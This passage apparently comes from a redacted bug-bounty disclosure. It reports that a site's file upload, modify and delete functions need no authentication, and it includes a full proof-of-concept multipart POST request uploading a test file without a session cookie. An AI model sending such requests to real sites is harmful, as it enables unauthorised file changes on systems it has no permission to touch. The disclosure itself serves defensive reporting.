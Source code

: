 ```
					<br /> <br />
				</p>
			</td>
		</tr>
		<tr>
			<td><br /> <br /></td>
		</tr>
		<tr align="center">
		</tr>
	</table>
	<script type="text/javascript">
    var MenuBar1 = new Spry.Widget.MenuBar("MenuBar1", {imgDown:"../SpryAssets/SpryMenuBarDownHover.gif", imgRight:"../SpryAssets/SpryMenuBarRightHover.gif"});
</script>
</body>
</html>

```

* The functions allow to upload, modify and to delete █████ files and can all be used completely unauthenticated. Following an example in which I upload a file; this upload function can be accessed from https://█████/██████/████/█████████bull.php. Note that the request has no session cookie:

```
POST /████/███████/███████bulla.php HTTP/1.1
Host: █████
Content-Length: 401
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: https://█████
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryVxWfTBx5ZkXMXVG2
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.54 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: https://███████/█████/████/████████bull.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close
X-Bug-Bounty: HackerOne-palaziv
X-Bug-Bounty: BurpSuitePro

------WebKitFormBoundaryVxWfTBx5ZkXMXVG2
Content-Disposition: form-data; name="bdate"

1970-01-01
------WebKitFormBoundaryVxWfTBx5ZkXMXVG2
Content-Disposition: form-data; name="userfile1"; filename="test.txt"
Content-Type: text/plain

test

------WebKitFormBoundaryVxWfTBx5ZkXMXVG2
Content-Disposition: form-data; name="buttonm"

Begin Uploads
------WebKitFormBoundaryVxWfTBx5ZkXMXVG2--
```
